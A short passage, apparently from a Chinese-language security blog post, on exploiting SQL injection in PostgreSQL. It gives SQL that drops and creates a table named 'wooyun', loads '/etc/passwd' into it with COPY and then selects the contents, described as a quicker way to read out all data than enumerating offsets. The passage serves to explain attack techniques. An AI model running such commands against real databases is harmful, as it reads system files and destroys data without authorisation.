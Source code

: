 ![pic](20180201_03_pic_004.jpg)  
  
利用注射修改偏移值很快就可以遍历出来了，但是还是有点寒碜，直接读出全部数据  
  
```  
DROP TABLE wooyun;  
CREATE TABLE wooyun (t TEXT);  
COPY wooyun(t) FROM '/etc/passwd';  
SELECT * FROM wooyun;  
```  
  
![pic](20180201_03_pic_005.jpg)  
  